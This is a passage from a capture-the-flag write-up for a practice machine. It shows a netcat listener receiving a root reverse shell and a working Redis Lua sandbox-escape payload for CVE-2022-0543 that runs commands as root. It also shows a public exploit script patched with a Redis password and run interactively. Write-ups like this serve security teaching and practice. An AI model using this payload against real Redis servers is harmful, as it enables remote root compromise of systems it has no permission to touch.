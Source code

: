 

    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.172 36284
    bash: cannot set terminal process group (2058): Inappropriate ioctl for device
    bash: no job control in this shell
    root@shared:/var/lib/redis#



This shell seems to die every minute, so I'll have to work quickly to
get the flag:



    root@shared:~# cat root.txt
    55e4f416************************



#### Script

Googling for "cve-2022-0543 site:github.com" returns a [POC by
aodsec](https://github.com/aodsec/CVE-2022-0543/blob/main/CVE-2022-0543.py),
which takes a slightly different approach to the loaded Lua, and manages
to get output printed in the Redis terminal:



    127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
    "uid=0(root) gid=0(root) groups=0(root)\n"



The script provides a shell-like experience. It will fail because
there's no auth in the script, but adding this line fixes it:



    r = redis.Redis(host = ip,port = port, password="F2WHqJUz2WEz=Gqq")



Now it works nicely:



    oxdf@hacky$ python cve-2022-0543.py -h
      
          [#] Create By ::
            _                     _    ___   __   ____                             
           / \   _ __   __ _  ___| |  / _ \ / _| |  _ \  ___ _ __ ___   ___  _ __  
          / _ \ | '_ \ / _` |/ _ \ | | | | | |_  | | | |/ _ \ '_ ` _ \ / _ \| '_ \ 
         / ___ \| | | | (_| |  __/ | | |_| |  _| | |_| |  __/ | | | | | (_) | | | |
        /_/   \_\_| |_|\__, |\___|_|  \___/|_|   |____/ \___|_| |_| |_|\___/|_| |_|
                       |___/            By https://aodsec.com                                           
        
    Please input redis ip:
    >>127.0.01
    Please input redis port:
    >>6379
    input exec cmd:(q->exit)
    >>id
    b'uid=0(root) gid=0(root) groups=0(root)\n'
    input exec cmd:(q->exit)
    >>pwd
    b'/var/lib/redis\n'
    input exec cmd:(q->exit)







